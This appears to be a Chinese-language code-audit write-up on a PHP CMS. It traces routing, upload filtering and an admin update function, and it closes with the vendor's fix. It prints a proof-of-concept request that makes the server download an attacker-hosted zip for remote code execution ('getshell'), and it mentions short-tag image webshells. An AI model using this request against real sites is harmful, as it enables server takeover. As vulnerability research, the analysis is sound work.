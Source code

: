 ### 前置知识

在分析审计代码之前先来看一下index.php文件中的代码，对CMS的路由等有个了解  
`index.php`  
前面代码部分会对一些类进行加载校验，诸如数据库连接等类。这里会对`front`类进行实例化并调用类中的`dispatch`方法，跟进代码来仔细看一下  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1ae6d0271b9215ade38d5c49450291bd49cb56fa.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1ae6d0271b9215ade38d5c49450291bd49cb56fa.png)  
`/lib/tool/front_class.php`  
`dispatch`方法会对类是否存在进行一个校验，如果类不存在直接抛出异常，`$case`变量以及`$act`都是通过GET方式进行获取的，之后会对`$act`进行一个拼接赋值给`$method`，之后去类中寻找对应的方法，如果存在就可以调用类中的方法，不存在就会抛出异常  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1a463eece1f3fc4c14f4d4b8af8ed4eaa9f5c72d.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1a463eece1f3fc4c14f4d4b8af8ed4eaa9f5c72d.png)  
还需要注意的是后台功能模块或是调用类中方法的时候都会自带两个参数`site=default&admin_dir=admin`,这两个get参数部分功能点通过抓包能够看到，所以最好是在请求的时候自己写上

### upload

还是常规思路，先对存在上传的功能点进行分析。登录管理员后台，上传功能点有多个，这里对上传logo功能点进行尝试，设置-&gt;全局设置-&gt;网站logo，上传正常的图片同时进行抓包  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f9213ab07e22df1cc9f17a391a5251884af44753.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f9213ab07e22df1cc9f17a391a5251884af44753.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ae633504953d62652e51fe7a1e4ce47aab859d87.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ae633504953d62652e51fe7a1e4ce47aab859d87.png)  
能够正常上传图片，修改后缀为PHP上传失败，常见的绕过方法都没有用，将请求转换成表单的形式也没有办法进行上传，根据前面提到调用的方法形式，来找到类以及类中的方法进行审计  
`/lib/default/tool_act.php#556`

```php
    function uploadimage3_action()
    {
        $res = array();
        $uploads = array();
        if (is_array($_FILES)) {
            $upload = new upload();
            $upload->dir = 'images';
            $upload->max_size = config::get('upload_max_filesize') * 1024 * 1024;
            $_file_type = str_replace(',', '|', config::get('upload_filetype'));
            foreach ($_FILES as $name => $file) {
                $res[$name]['size'] = ceil($file['size'] / 1024);
                if ($file['size'] > $upload->max_size) {
                    $res[$name]['code'] = "1";
                    $res[$name]['msg'] = lang('attachment_exceeding_the_upper_limit') . "(" . ceil($upload->max_size / 1024) . "K)！";
                    break;
                }
                if (!front::checkstr(file_get_contents($file['tmp_name']))) {
                    $res[$name]['code'] = "2";
                    $res[$name]['msg'] = lang('upload_failed_attachment_is_not_verified');
                    break;
                }
                if (!$file['name'] || !preg_match('/\.(' . $_file_type . ')$/', $file['name']))
                    continue;
                $uploads[$name] = $upload->run($file);
                if (!$uploads[$name]) {
                    $res[$name]['code'] = "3";
                    $res[$name]['msg'] = lang('attachment_save_failed');
                    break;
                }
                $str = (config::get('base_url')==""?"":config::get('base_url')) .$uploads[$name];
                $res[$name]['name'] = $str;
                $res[$name]['type'] = $file['type'];
                $res[$name]['code'] = "0";
                apps::updateimg($uploads[$name],ROOT.$str);
            }
        }
        echo json::encode($res);
    }
```

`uploadimage3_action`方法对上传的文件进行了处理，首先对文件类型、大小等进行了获取，并从已申明的常量中获取了允许上传的文件类型即文件名后缀，也就是说这里做了白名单校验，只有在白名单当中的文件才能够上传成功；之后调用了`front`类中的`checkstr`方法对文件内容进行了校验，跟进一下方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-797c2fa0533913a95c9e18eec5d272d1806704ec.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-797c2fa0533913a95c9e18eec5d272d1806704ec.png)  
`checkstr`方法写了一个黑名单匹配规则，只要匹配到黑名单当中的字符串内容，就直接返回`false`，那么也无法成功上传，这样子图片马必须采用短标签的形式进行写入，利用的前提是php的配置解析短标签，并且存在可控的文件包含点  
之后对文件后缀进行校验，如果符合要求就会调用`upload`类中`run`方法进行文件存储路径的创建  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ebac6cef548363e3fe7a02d8463505a5272767eb.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-ebac6cef548363e3fe7a02d8463505a5272767eb.png)  
下面通过调试直接输出一些变量值  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4cafcadbc61eb65a256debfa09d8aa87f96ee230.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-4cafcadbc61eb65a256debfa09d8aa87f96ee230.png)  
可以看到允许上传的所有文件类型，以及对文件处理之后生成的绝对存储路径，这里看到允许上传压缩包的时候想到了之前审计的`CMS`，`getshell`的方法就是通过在压缩包中放入shell文件，之后cms进行解压缩操作，已知上传之后的路径；那么接下来就需要找到对压缩包进行解压缩操作的方法  
`lib/plugins/filecheck/tool/phpzip#unzip`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8f5e2e516e92824f023f5e04fe0b565e3ef98f07.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8f5e2e516e92824f023f5e04fe0b565e3ef98f07.png)  
通过全局代码搜索找到unzip方法，但是index.php并不会包含该类，那么上传压缩包进行getshell的方法就不可行了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-827f699f5114b0c0fa1105579245304c5ba4aae5.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-827f699f5114b0c0fa1105579245304c5ba4aae5.png)  
看起来功能点结合getshell就到这里了。接下来转变一下思路，还记得之前审过的cms能够通过控制器调用方法远程下载vps上的文件，那么一样能够达到getshell的目的，那就跟着思路去找找看有没有类似的方法存在。  
全局搜索类似`function download，downfile`的关键词，找到了几处，经过审计确认其中一个可能可以满足需求  
`lib/admin/update_admin.php#85`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-e470378e5d3f463de1d967bda02757b2bbe889b2.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-e470378e5d3f463de1d967bda02757b2bbe889b2.png)  
通过调用`front`类的`get`方法获取`url`参数，之后调用本来中的`get_file`方法，跟进，这里就是对指定的文件进行了下载保存，那么应该可以远程下载我们的`shell`文件了；之后会调用`PclZip`类中的`extract`方法对上传的压缩包进行解压缩并对已经存在的文件进行覆盖，下面的代码还会对指定的`sql`文件进行覆盖并重新加载`sql`文件，那么可以在数据库文件插入恶意代码进行`getshell`，这里没有深入探究。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7b01d7948f0b2638260eb234024036d350b172f0.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7b01d7948f0b2638260eb234024036d350b172f0.png)  
根据前面分析的，可以构造出如下的poc

```php
case=update&act=downfile&site=default&admin_dir=admin&url=http://xxxx/xx.zip
```

成功getshell  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-bb1beceef96a9d0dbefc14a5fcb53a0da91b4aa3.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-bb1beceef96a9d0dbefc14a5fcb53a0da91b4aa3.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-566a6009c3074e3fd9dcf86d2f8eecefd99578eb.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-566a6009c3074e3fd9dcf86d2f8eecefd99578eb.png)

### 漏洞修复

审计的CMS并不是最新版的，看了最新版的，已经对此处的漏洞进行了修复。修复代码如下：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8cd0aa082dad1c77358df3df9876bdb065c42e60.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-8cd0aa082dad1c77358df3df9876bdb065c42e60.png)  
跟一下，可以发现其实是对url进行了解密处理，该类中还有一个加密函数，其实这算是另类的修复方案？未使用加密方法对url处理，那么解密之后url自然也就乱码了，乱码的地址当然也就不能访问到要下载的文件了，挺绝的...  
[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7906d277b5ec238556c6b0f9936fc424e47cbf65.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7906d277b5ec238556c6b0f9936fc424e47cbf65.png)